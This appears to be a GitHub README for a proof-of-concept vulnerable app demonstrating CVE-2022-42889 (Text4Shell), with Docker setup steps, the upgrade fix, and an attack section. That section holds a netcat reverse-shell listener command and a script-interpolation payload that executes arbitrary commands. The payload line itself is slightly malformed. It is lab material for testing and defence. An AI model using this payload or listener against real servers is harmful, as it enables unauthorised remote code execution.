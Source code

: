 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 

# Vulnerable app set-up
You can use Docker to be able to run this PoC:

1. Clone the git repo
```
   git clone https://github.com/securekomodo/text4shell-poc.git
   cd text4shell-poc
```

1. Docker build

```
   docker build --tag=text4shell-poc .
```

1. Docker run

```
   docker run -p 80:8080 text4shell-poc
```

1. Test the vulnerable app

```
   http://localhost/
```

# Attack Set-up

1. Reverse TCP listener
```
   sudo apt install rlwrap
```
```
   sudo rlwrap nc -nlvp 443
```
1. Payload
```
   ${script:javascript:java.lang.Runtime.getRuntime().exec'<Command to Execute>’)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Reverse Shell generator [Generate Reverse Shell](https/www.revshells.com/)

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)



# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)
